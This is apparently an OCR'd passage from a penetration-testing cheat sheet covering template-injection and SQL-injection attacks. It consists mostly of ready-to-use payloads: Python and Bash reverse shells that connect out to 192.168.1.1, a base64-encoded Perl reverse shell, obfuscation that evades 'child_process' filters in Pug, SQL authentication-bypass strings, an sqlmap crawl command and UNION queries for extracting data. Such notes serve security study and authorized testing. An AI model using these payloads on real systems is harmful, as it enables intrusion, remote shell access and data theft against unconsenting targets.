 			Selecting subprocess.Popen:  {{ subclasses_r[997] }}
				RCE (create file):  {{ subclasses_r[997](["/usr/bin/touch","/tmp/test"]) }}
				RCE (shell):  {{ subclasses_r[997](["/usr/bin/python2.7","-c",'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);']) }}  
	Pug (NodeJS):
		#{7*7}
		Reverse Shell #1 (w/ 'child_process' filter evasion):
			#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad(\\"child_p\\\\x72ocess\\").exec('bash -c \\"sh -i >& /dev/tcp/192.168.1.1/5555 0>&1\\"')}()}
		Reverse Shell #2:
			#{spawn_sync = this.process.binding('spawn_sync')};#{ normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};}};#{spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}};#{payload='dXNlIFNvY2tldDskaT0iMTkyLjE2OC4xMTkuMTQ4IjskcD01NTU1O3NvY2tldChTLFBGX0lORVQsU09DS19TVFJFQU0sZ2V0cHJvdG9ieW5hbWUoInRjcCIpKTtpZihjb25uZWN0KFMsc29ja2FkZHJfaW4oJHAsaW5ldF9hdG9uKCRpKSkpKXtvcGVuKFNURElOLCI+JlMiKTtvcGVuKFNURE9VVCwiPiZTIik7b3BlbihTVERFUlIsIj4mUyIpO2V4ZWMoIi9iaW4vc2ggLWkiKTt9Ow=='};#{resp=spawnSync('perl',['-e',(new Buffer(payload, 'base64')).toString('ascii')])}
		Another Filter Evasion:  localLoad("\x63\x68\x69\x6c\x64\x5f\x70\x72\x6f\x63\x65\x73\x73")


## SQL Injection (SQLI):  

	If a database is queried without proper input sanitization
	Checks:
		Input fields:  see if ' or " cause errors
        	URL parameters:  might need to URL encode
			?id=1' produces error?
			?cod=1+and+2=2  displays correctly?
		Crawl:  sqlmap -u http://192.168.1.101 --dbms=mysql --crawl=3
	Authentication bypass:
		username:  admin'# ; password:   abc' OR 1=1#
		' or '1'='1
        	tom' or 1=1;#
		admin' or 1=1-- -
		abc' OR 1=1--
		Others:  https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/ or https://sushant747.gitbooks.io/total-oscp-guide/content/sql-injections.html
        	Fix "multiple row" error:   tom' or 1=1 LIMIT 1;#
	Example SQL Queries & Syntax:
		select * from accounts where username='$user' and password='$pass'
		Comment symbol: # (MySQL) or -- (standard SQL)	
	Manual Exploitation Process:  figure out structure, then extract data
		URL Parameter:
			1. Determine number of columns:
			    ?id=1 order by 1;    -> increment until error
			2. See which columns #'s are being displayed:
			    ex. if 4 columns:   ?id=1 union all select 1, 2, 3
			3. Extract data:
				?id=1 union all select 1, 2, @@version  (or version())
				union all select 1, 2, user()
				union all select 1, 2, database()
				UNION SELECT 1,concat(table_name,char(58),column_name) from information_schema.columns #